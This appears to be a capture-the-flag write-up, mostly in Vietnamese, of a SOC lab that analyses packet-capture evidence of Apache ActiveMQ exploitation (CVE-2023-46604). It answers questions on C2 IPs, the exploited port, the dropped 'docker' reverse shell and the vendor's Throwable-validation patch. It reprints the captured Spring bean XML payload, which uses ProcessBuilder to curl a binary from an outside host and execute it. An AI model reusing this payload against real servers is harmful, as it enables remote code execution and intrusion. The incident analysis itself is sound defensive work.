 # Mô tả

During your shift as a tier-2 SOC analyst, you receive an escalation from a tier-1 analyst regarding a public-facing server. This server has been flagged for making outbound connections to multiple suspicious IPs. In response, you initiate the standard incident response protocol, which includes isolating the server from the network to prevent potential lateral movement or data exfiltration and obtaining a packet capture from the NSM utility for analysis. Your task is to analyze the pcap and assess for signs of malicious activity.

# Phân tích

## Q1

**By identifying the C2 IP, we can block traffic to and from this IP, helping to contain the breach and prevent further data exfiltration or command execution. Can you provide the IP of the C2 server that communicated with our server?**

`146.190.21.92`

## Q2 

**Initial entry points are critical to trace the attack vector back. What is the port number of the service the adversary exploited?**

`61616`

## Q3

**Following up on the previous question, what is the name of the service found to be vulnerable?**

Tìm trong protocol `Open Wire` thấy có entry này `ProviderName, ActiveMQ` tìm thêm trên google sẽ biết nó là  một Message Oriented Middleware(MOM) một phần của Apache

`Apache ActiveMQ`

## Q4

**The attacker's infrastructure often involves multiple components. What is the IP of the second C2 server?**

Tại packet 14 thấy người dùng gửi request đến server C2 thứ nhất lấy file `invoice.xml`

```xml
GET /invoice.xml HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/11.0.21
Host: 146.190.21.92:8000
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Tue, 12 Dec 2023 13:38:28 GMT
Content-type: application/xml
Content-Length: 816
Last-Modified: Tue, 12 Dec 2023 13:37:45 GMT

<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Nhưng mà nội dung file xml này lại khá lạ, nó muốn thực hiện lệnh `bash -c curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker` để tải một file tên là `docker` từ `128.199.52.72` sau đó lưu vào thư mục `/tmp/docker` và rồi chạy nó. Khả năng cao là nếu người dùng mà mở file `invoce.xml` sẽ thực hiện lệnh này trên máy thông qua việc khởi tạo class java `java.lang.ProcessBuilder` 

Tiếp tục tại packet 34 ta thấy người dùng có gửi một request đến `128.199.52.72`lấy file `docker`

```
GET /docker HTTP/1.1
Host: 128.199.52.72
User-Agent: curl/7.68.0
Accept: */*


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Tue, 12 Dec 2023 13:38:28 GMT
Content-type: application/octet-stream
Content-Length: 250
Last-Modified: Tue, 12 Dec 2023 12:23:04 GMT
```

## Q5

**Attackers usually leave traces on the disk. What is the name of the reverse shell executable dropped on the server?**

`docker`

## Q6

**What Java class was invoked by the XML file to run the exploit?**

`java.lang.ProcessBuilder`

## Q7

**To better understand the specific security flaw exploited, can you identify the CVE identifier associated with this vulnerability?**

Từ các dữ kiện trên ta biết được hacker lợi dụng lỗ hổng của `Apache ActiveMQ` gửi một file XML chứa payload độc hại cho người dùng và sau đó nếu mở thì sẽ drop một file PE vào máy. Một lỗ hổng RCE

Lên google tìm `Apache ActiveMQ RCE CVE`

https://activemq.apache.org/news/cve-2023-46604

**CVE-2023-46604** là một lỗ hổng (RCE) trong Apache ActiveMQ. Lỗ hổng này cho phép hacker gửi một payload độc hại (ví dụ như một file XML được thiết kế đặc biệt) đến máy chủ sử dụng ActiveMQ. Nếu được xử lý bởi hệ thống dễ bị tấn công, payload này có thể khiến máy chủ thực thi mã tùy ý như là drop một file PE

## Q8

**The vendor addressed the vulnerability by adding a [validation step](https://github.com/apache/activemq/pull/1098/commits/3eaf3107f4fb9a3ce7ab45c175bfaeac7e866d5b) to ensure that only valid `Throwable` classes can be instantiated, preventing exploitation. In which Java class and method was this validation step added?**

Ở trên thì hacker đã gửi một file XML(Là một spring bean config) đến ActiveMQ - một hệ thống xử lí được bean từ XML. Sau đó hệ thống sẽ tự động deserialize hoặc load XML mà không kiểm tra xem class đó làm gì

Và để phòng tránh việc đó xảy sẽ thêm check vào các hàm để chỉ cho phép deserialize các class được kế thừa từ `throwable`

```java
public abstract class BaseDataStreamMarshaller implements DataStreamMarshaller {
@@ -228,8 +229,11 @@ protected Throwable tightUnmarsalThrowable(OpenWireFormat wireFormat, DataInput
    private Throwable createThrowable(String className, String message) {
        try {
            Class clazz = Class.forName(className, false, BaseDataStreamMarshaller.class.getClassLoader());
            OpenWireUtil.validateIsThrowable(clazz);
            Constructor constructor = clazz.getConstructor(new Class[] {String.class});
            return (Throwable)constructor.newInstance(new Object[] {message});
        } catch (IllegalArgumentException e) {
            return e;
        } catch (Throwable e) {
            return new Throwable(className + ": " + message);
        }
```

`BaseDataStreamMarshaller.createThrowable`

